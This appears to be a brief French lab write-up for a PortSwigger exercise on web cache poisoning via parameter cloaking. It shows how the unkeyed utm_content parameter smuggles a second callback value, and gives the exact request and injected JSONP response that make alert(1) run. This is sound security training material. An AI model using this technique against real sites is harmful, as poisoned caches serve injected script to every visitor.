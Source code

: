 # Lab

https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking

## Payload

On cherche a polluer le cache pour que l'endpoint JSONP `/js/geolocate.js` soit appelé avec le paramètre `callback=alert(1);a=`.

```js
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1);a=({"country":"United Kingdom"});
```

On cherche un paramètre exclus de la clé de cache. On peut utiliser les paramètres UTM.

On trouve que le paramètre `utm_content` est exclus de la clé de cache.

Avec du paramètre cloaking, on peut faire en sorte que le paramètre `callback` soit remplacé par `utm_content`.

`GET /js/geolocate.js?callback=setCountryCookie&utm_content=qsd;callback=alert(1)%3ba=`